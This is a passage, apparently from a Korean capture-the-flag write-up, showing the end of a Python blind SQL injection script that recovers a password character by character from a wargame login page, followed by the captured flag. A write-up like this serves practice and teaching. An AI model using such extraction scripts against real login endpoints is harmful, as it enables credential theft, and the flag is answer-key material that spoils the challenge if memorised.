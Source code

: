 ```python
                string+= chr(ascii_code) # ascii 값을 문자로 변환
                print(f"현재까지 알아낸 비밀번호: {string}")
                # return string 여기서 반환하면 안됨
                break
    return string # 완성된 string 반환

url = "http://war.knock-on.org:10035/login"
username = ""
password = "1"

password_length = find_password_length(url, username, password)
print(f"비밀번호 길이: {password_length}")

password_string = find_password(url, password_length, username, password)
print(f"완성된 비밀번호: {password_string}")
```

|

|

### FLAG

---

```
K0{blind_sql_with_WAF}
```

|

---